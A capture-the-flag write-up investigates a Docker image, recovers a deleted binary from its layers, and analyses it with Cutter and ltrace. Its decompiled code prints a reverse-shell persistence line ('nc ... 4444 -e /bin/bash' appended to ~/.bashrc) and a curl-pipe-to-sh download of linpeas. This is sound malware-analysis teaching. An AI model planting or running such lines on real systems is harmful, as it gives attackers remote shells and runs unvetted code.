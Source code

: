 ```yaml
---
title: HackyHolidays - Protect the supply - Writeup
tags: hackyholidays malware linux forensics reversing
---
```


# Description

This challenge was in both forensics and reversing categories

![image](https://user-images.githubusercontent.com/84577967/178866898-e4fcedc6-2d0d-4bc2-a2de-8237f9e290a8.png)

# Solution

The challenge is a container that we can pull using the command in description

```bash
docker run -ti hackazon/micro_ghost /bin/sh
```

As a fan of `bash` shell I had to change the `/bin/sh` to `/bin/bash`

```bash
docker run -ti hackazon/micro_ghost /bin/bash
```

![image](https://user-images.githubusercontent.com/84577967/178867304-81b759ea-a401-424c-9980-758741ec271b.png)

Now after we pull up the full docker image we can investigate on the command history 

```bash
docker history IMAGEID
```

Of course we have to change the `IMAGEID` value and to retrieve the challenge image id we can use this simple command

```bash
docker image ls | grep hackazon/micro_ghost
```

![image](https://user-images.githubusercontent.com/84577967/178867433-0514a809-4f6c-4ce0-8fe8-4a81a7187c24.png)


```bash
docker history fc6642d32b03
```

![image](https://user-images.githubusercontent.com/84577967/178867679-d7af4be8-2293-480f-9441-5cdf8b75a792.png)

But the output isn't complete we can add new arguments and jq to beautify the output

```bash
docker history --format "{{json .}}" fc6642d32b03 --no-trunc |jq .
```

![image](https://user-images.githubusercontent.com/84577967/178867846-7fa527fb-30c7-40c9-b470-66625e2d9e6a.png)

The full output:

```json
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:06+01:00",
  "CreatedBy": "/bin/sh -c rm /lib/x86_64-linux-gnu/libc.so.evil.6",
  "CreatedSince": "7 days ago",
  "ID": "sha256:fc6642d32b03e5c96e96299b64ca355bcfea30ef6ad4dec984f2601129210bbb",
  "Size": "0B"
}
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:04+01:00",
  "CreatedBy": "/bin/sh -c /lib/x86_64-linux-gnu/libc.so.evil.6",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "0B"
}
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:03+01:00",
  "CreatedBy": "/bin/sh -c mv /opt/libc.so.6 /opt/libc.so.evil.6",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "1.9MB"
}
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:02+01:00",
  "CreatedBy": "/bin/sh -c chmod +x /lib/x86_64-linux-gnu/libc.so.evil.6",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "14.4kB"
}
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:00+01:00",
  "CreatedBy": "/bin/sh -c #(nop) COPY file:46b15dd2b1c1b2421f8f66c0e0b1adbb2be1fa29bdfb24df21ab41a4393cc4ca in /opt/ld-linux-x86-64.so.2 ",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "204kB"
}
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:00+01:00",
  "CreatedBy": "/bin/sh -c #(nop) COPY file:5f853a35eb22d7cd0b3789fdf55937ebf492d63386894ed02ab7d6fa7717ff30 in /opt/libc.so.6 ",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "1.9MB"
}
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:22:59+01:00",
  "CreatedBy": "/bin/sh -c #(nop) COPY file:1d19734b949df42e538d10ea3e6c9eb33e3f2064be2540a446c095ee007af323 in /lib/x86_64-linux-gnu/libc.so.evil.6 ",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "14.4kB"
}
{
  "Comment": "",
  "CreatedAt": "2022-06-06T23:21:26+01:00",
  "CreatedBy": "/bin/sh -c #(nop)  CMD [\"bash\"]",
  "CreatedSince": "5 weeks ago",
  "ID": "<missing>",
  "Size": "0B"
}
{
  "Comment": "",
  "CreatedAt": "2022-06-06T23:21:25+01:00",
  "CreatedBy": "/bin/sh -c #(nop) ADD file:11157b07dde10107f3f6f2b892c869ea83868475d5825167b5f466a7e410eb05 in / ",
  "CreatedSince": "5 weeks ago",
  "ID": "<missing>",
  "Size": "77.8MB"
}
```

What took my attention is the third value from bottom, where a weird file was copied to the container `/lib/x86_64-linux-gnu/libc.so.evil.6`

```json
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:22:59+01:00",
  "CreatedBy": "/bin/sh -c #(nop) COPY file:1d19734b949df42e538d10ea3e6c9eb33e3f2064be2540a446c095ee007af323 in /lib/x86_64-linux-gnu/libc.so.evil.6 ",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "14.4kB"
}
```

But it seems like it was removed 

![image](https://user-images.githubusercontent.com/84577967/178868216-05856585-5204-49e1-b0b6-25c658d0ef37.png)

And this what we can notice in the last command

```json
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:06+01:00",
  "CreatedBy": "/bin/sh -c rm /lib/x86_64-linux-gnu/libc.so.evil.6",
  "CreatedSince": "7 days ago",
  "ID": "sha256:fc6642d32b03e5c96e96299b64ca355bcfea30ef6ad4dec984f2601129210bbb",
  "Size": "0B"
}
```

And just seconds before that it was executed

```json
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:04+01:00",
  "CreatedBy": "/bin/sh -c /lib/x86_64-linux-gnu/libc.so.evil.6",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "0B"
}
```

So we have to check the precedent layers where we can find the original file, and one of the more straightforward ways to examine a Docker image's layers is by saving it to a tar archive

```bash
docker save fc6642d32b03 > fc6642d32b03.tar
```

After that we extract the tar file, there is a file named `manifest.json` has all the layers and will help us in investigating

![image](https://user-images.githubusercontent.com/84577967/178868876-4b131905-8e26-46e2-8055-edfeb0d9ec21.png)

So as the file was copied in the 3rd operation like I mentioned eariler and the 2nd operation is just a CMD command, our binary file can be found on the second layer `104337d79b4c7be52c587e29595ddf09df584bd991875e10392a0fc1fd901b57/layer.tar`

![image](https://user-images.githubusercontent.com/84577967/178869275-0e071309-fcf8-4e51-8d5a-32c55f1db72b.png)

Let's open it in `Cutter` for disassembling and see what we have

![image](https://user-images.githubusercontent.com/84577967/178871965-9a8941ef-aae7-44da-b837-de160fdc5ccd.png)

I found some functions that shows that the binary is a kind of a malware

![image](https://user-images.githubusercontent.com/84577967/178872535-5ff482ec-95c6-49f5-bc99-07121fce5e9a.png)

![image](https://user-images.githubusercontent.com/84577967/178872988-1924c75e-1aaf-40ee-b768-3c17ebcca50f.png)

![image](https://user-images.githubusercontent.com/84577967/178877053-a128d4f5-b6a5-4757-a4da-5f4703b9ca3c.png)

The third function in the screenshot shows a kind of loop that get's their values from the main function

![image](https://user-images.githubusercontent.com/84577967/178877935-a1227b25-ee6f-4778-9827-9a577b954532.png)

So let's copy the binary file in another ubuntu container to run it safely and see what actually the malware does ...

![image](https://user-images.githubusercontent.com/84577967/178881692-9f8b49c1-4d1a-4f69-8370-181bcd329351.png)

So the malware is doing all what we've seen in the function's above

```C
void fcn.00001208(void)
{
    system("apt install netcat");
    system("apt install wget");
    system("echo \'nc c2.maldomain.del 4444 -e /bin/bash >> ~/.bashrc\'");
    system("curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh >lin.log");
    return;
}
```

But what we couldn't see is the 3rd function, that ltrace shows here

![image](https://user-images.githubusercontent.com/84577967/178882405-f8c61a1f-ee66-4cc7-9a92-9fa9c36113c3.png)

Ltrace limits the strings output to 32, we can change that by adding a new arguments `-s "number of strings"`

```bash
ltrace -s 200 ./libc.so.evil.6
```

# Flag

And like that we could get our flag !

![image](https://user-images.githubusercontent.com/84577967/178882767-4f9706a0-ff9b-41ac-a9f5-add41e77b7a8.png)


